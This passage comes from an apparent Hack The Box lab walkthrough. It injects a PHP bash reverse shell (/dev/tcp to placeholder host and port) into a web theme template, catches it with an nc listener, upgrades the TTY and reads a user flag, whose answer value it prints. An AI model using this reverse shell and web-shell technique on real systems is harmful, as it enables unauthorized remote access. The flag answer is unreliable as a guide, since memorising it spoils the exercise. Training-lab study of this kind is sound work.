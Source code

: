 Code: php

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/PWNIP/PWNPO 0>&1'"); ?>
```

![[HTB Solutions/CPTS/z. images/4fc672fe503adf803446f6ae1e78a1d6_MD5.jpg]]

Students then need to start a listener on their `Pwnbox`/`PMVPN` using `nc`:

Code: shell

```shell
nc -nvlp PWNPO
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@htb-co8vkqsbet]─[~]
└──╼ [★]$ nc -nvlp 1234

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

Subsequently, students need to visit the `/template.php` web page (`http://STMIP/theme/Innovation/template.php`) to execute the PHP reverse-shell code:

![[HTB Solutions/CPTS/z. images/d90b0322fceeb74ab76c9a5f30d1ab74_MD5.jpg]]

If performed correctly, students will receive the call back on the `nc` listener:

```
Ncat: Connection from 10.129.42.249.
Ncat: Connection from 10.129.42.249:42840.
bash: cannot set terminal process group (1014): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gettingstarted:/var/www/html/theme/Innovation$ 
```

Students need to upgrade their dumb TTY terminal and make it interactive:

Code: shell

```shell
python3 -c 'import pty;pty.spawn("/bin/bash");'
export TERM=xterm
```

```
www-data@gettingstarted:/var/www/html/theme/Innovation$ python3 -c 'import pty;pty.spawn("/bin/bash");'    
www-data@gettingstarted:/var/www/html/theme/Innovation$ export TERM=xterm
```

At last, students can read the "user.txt" flag found within the `/home/mrb3n/` directory, finding it to be `7002d65b149b0a4d19132a66feed21d8`:

Code: shell
